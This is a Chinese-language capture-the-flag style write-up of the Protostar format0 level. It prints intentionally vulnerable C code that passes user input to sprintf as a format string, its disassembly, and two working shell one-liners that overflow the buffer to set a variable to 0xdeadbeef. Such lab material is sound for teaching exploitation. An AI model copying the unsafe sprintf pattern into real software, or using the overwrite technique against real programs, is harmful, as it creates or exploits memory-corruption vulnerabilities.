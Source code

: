 # Format

## Format

### About

This level introduces format strings, and how attacker supplied format strings can modify the execution flow of programs.

**Hints**

- This level should be done in less than 10 bytes of input.
- “Exploiting format string vulnerabilities”

This level is at /opt/protostar/bin/format0

### Source code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln(char *string)
{
  volatile int target;
  char buffer[64];

  target = 0;

  sprintf(buffer, string);
  
  if(target == 0xdeadbeef) {
      printf("you have hit the target correctly :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```

`sprintf`指的是**字符串格式化命令**，主要功能是**把格式化的数据写入某个字符串中**。`sprintf` 是个[变参](https://baike.baidu.com/item/变参/9844833)函数。使用`sprintf` 对于写入`buffer`的字符数是**没有限制**的，这就存在了`buffer`溢出的可能性。

用objdump查看一下汇编代码，`target`变量在`ebp-0xc`处，`buffer`在`ebp-0x4c`处，二者相距`0x40`（64个字节），所以通过格式化字符串，**写入64个字符，后面跟上0xdeadbeef**，就能将`target`的值覆盖成`0xdeadbeef`。

```asm
080483f4 <vuln>:
 80483f4:	55                   	push   ebp
 80483f5:	89 e5                	mov    ebp,esp
 80483f7:	83 ec 68             	sub    esp,0x68
 80483fa:	c7 45 f4 00 00 00 00 	mov    DWORD PTR [ebp-0xc],0x0
 8048401:	8b 45 08             	mov    eax,DWORD PTR [ebp+0x8]
 8048404:	89 44 24 04          	mov    DWORD PTR [esp+0x4],eax
 8048408:	8d 45 b4             	lea    eax,[ebp-0x4c]
 804840b:	89 04 24             	mov    DWORD PTR [esp],eax
 804840e:	e8 ed fe ff ff       	call   8048300 <sprintf@plt>
 8048413:	8b 45 f4             	mov    eax,DWORD PTR [ebp-0xc]
 8048416:	3d ef be ad de       	cmp    eax,0xdeadbeef
 804841b:	75 0c                	jne    8048429 <vuln+0x35>
 804841d:	c7 04 24 10 85 04 08 	mov    DWORD PTR [esp],0x8048510
 8048424:	e8 07 ff ff ff       	call   8048330 <puts@plt>
 8048429:	c9                   	leave
 804842a:	c3                   	ret
```



你可以写入`64个A`或者其他的，或者可以通过`%64c`写入64个字符，后面在加上`deadbeef`。**$()**是用来做**命令替换**的，先执行`$()`里面的命令，得到返回结果进行替换。

### Exp

```shell
user@protostar:/opt/protostar/bin$ ./format0 $(echo -en "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xef\xbe\xad\xde")
you have hit the target correctly :)

user@protostar:/opt/protostar/bin$ ./format0 $(echo -en "%64c\xef\xbe\xad\xde")
you have hit the target correctly :)
```

